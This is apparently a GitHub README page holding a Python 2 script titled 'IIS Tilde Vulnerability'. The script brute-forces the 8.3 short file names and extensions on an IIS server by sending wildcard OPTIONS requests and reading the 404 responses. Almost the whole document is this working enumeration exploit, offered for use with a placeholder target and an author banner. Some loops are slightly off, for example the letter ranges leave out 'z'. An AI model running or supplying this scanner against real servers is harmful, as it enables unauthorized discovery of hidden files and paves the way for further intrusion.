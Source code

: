 # iis_tilde
IIS Tilde Vulnerability
import urllib2
files = list()
types = list()
site ='http://Example.com/'

print "++++++++++Aidin NaseriFard++++++++++++++++"
print "+++++++++Files Name+++++++++++++++++++++++++"
print "+++++++++++++++++++++++++++++++++++++++++++++++++++++++++"
for i in range(97,122):
    try:
        opener = urllib2.build_opener(urllib2.HTTPHandler)
        request = urllib2.Request(site+chr(i)+'*~1*/aspx')
        request.get_method = lambda: 'OPTIONS'
        url = opener.open(request)
    except urllib2.URLError, e:
        if e.code == 404:
            print site+chr(i)+'*~1*/aspx'
            files.append(chr(i))
for base in files:
    lens = '%3f'
    count = 0
    while True:
        try:
            opener = urllib2.build_opener(urllib2.HTTPHandler)
            request = urllib2.Request(site+base+lens+'~1*/aspx')
            request.get_method = lambda: 'OPTIONS'
            url = opener.open(request)
            count = count + 1
            lens = lens + '%3f'
        except urllib2.URLError, e:
            if e.code == 404:
                count = count + 1
                break
    for j in range(0,count):
        for i in range(97,122):
            try:
                opener = urllib2.build_opener(urllib2.HTTPHandler)
                request = urllib2.Request(site+base+chr(i)+'*~1*/aspx')
                request.get_method = lambda: 'OPTIONS'
                url = opener.open(request)
            except urllib2.URLError, e:
                if e.code == 404:
                    print site+base+chr(i)+'*~1*/aspx'
                    files[files.index(base)] = base + chr(i)
                    base = base + chr(i)
    print "++++++++++++++++++++++++++++++++++++++++++++"


print "\n++++++++++++++++++++++++++++++++++++++++++++"
print "+++++++++Files Type+++++++++++++++++++++++++"
print "++++++++++++++++++++++++++++++++++++++++++++"
for base in files:
    for i in range(97,122):
        try:
            opener = urllib2.build_opener(urllib2.HTTPHandler)
            request = urllib2.Request(site+base+'~1.'+chr(i)+'*/aspx')
            request.get_method = lambda: 'OPTIONS'
            url = opener.open(request)
        except urllib2.URLError, e:
            if e.code == 404:
                print site+base+'~1.'+chr(i)+'/aspx'
                types.append(chr(i))
    for base2 in types:
        lens = '%3f'
        count = 0
        while True:
            try:
                opener = urllib2.build_opener(urllib2.HTTPHandler)
                request = urllib2.Request(site+base+'~1.'+base2+lens+'/aspx')
                request.get_method = lambda: 'OPTIONS'
                url = opener.open(request)
                count = count + 1
                lens = lens + '%3f'
            except urllib2.URLError, e:
                if e.code == 404:
                    count = count + 1
                    break
        for j in range(0,count):
            for i in range(97,122):
                try:
                    opener = urllib2.build_opener(urllib2.HTTPHandler)
                    request = urllib2.Request(site+base+'~1.'+base2+chr(i)+'*/aspx')
                    request.get_method = lambda: 'OPTIONS'
                    url = opener.open(request)
                except urllib2.URLError, e:
                    if e.code == 404:
                        print site+base+'~1.'+base2+chr(i)+'*/aspx'
                        types[types.index(base2)] = base2 + chr(i)
                        base2 = base2 + chr(i)
        print "+++++++++++++++++++++++++++++++++++++++++++++++"

